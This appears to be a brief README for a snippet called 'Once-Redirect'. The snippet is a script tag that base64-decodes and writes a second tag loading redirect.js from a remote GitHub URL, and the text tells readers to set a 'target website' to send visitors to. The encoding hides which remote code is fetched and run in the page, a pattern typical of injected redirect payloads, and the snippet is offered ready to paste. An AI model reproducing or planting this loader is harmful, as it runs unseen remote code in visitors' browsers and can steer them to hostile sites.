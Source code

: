 # Once-Redirect
```html
<script>var url = "https://www.google.com"; document.write(atob("PHNjcmlwdCB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiIHNyYz0iaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0lDV1ItVEVDSC9PbmNlLVJlZGlyZWN0L21hc3Rlci9yZWRpcmVjdC5qcyI+PC9zY3JpcHQ+"));</script>
```
change value url variable "https://www.google.com" to our target website
